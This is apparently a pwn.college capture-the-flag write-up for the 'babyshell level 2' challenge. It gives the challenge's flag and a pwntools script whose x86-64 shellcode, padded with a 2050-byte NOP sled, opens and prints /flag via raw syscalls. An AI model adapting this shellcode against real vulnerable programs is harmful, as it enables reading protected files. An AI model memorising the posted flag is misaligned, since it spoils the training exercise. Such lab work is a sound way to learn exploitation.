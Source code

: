 Almost identical to the previous level except we need to add a bunch of nops because the executable skips some of it, The amount is randomised, but the maximum possible value is 2048 , so to be safe we can keep iut at 2050

Flag - ```pwn.college{8Xvl43INuRqOWot91N_Y2-ecL1a.0FOxIDLxEzN0czW}```


```python
from pwn import *

context.arch='amd64'
context.os='linux'

code=asm('''
    .rept 2050
    nop
    .endr
    mov rax, 0x00000067616c662f         
    push rax                            
    mov rdi, rsp          
    mov rsi, 0                          
    mov rax, 2                          
    syscall
    mov rdi, rax                        
    mov rsi, rsp                        
    mov rdx, 1000                       
    mov rax, 0                          
    syscall
    mov rdi, 1                          
    mov rsi, rsp                        
    mov rdx, rax                        
    mov rax, 1                          
    syscall
    mov rdi, 42                         
    mov rax, 60                         
    syscall
''')
print(code)
file="/challenge/babyshell-level-2"
host='pwn.college'
username='hacker'
keypath = '~/key'

ssh_connection = ssh(user=username, host=host, keyfile=keypath)

process=ssh_connection.process(file)

process.recvuntil("Reading 0x1000 bytes from stdin.")
process.sendline(code)
process.interactive()
ssh_connection.close()
```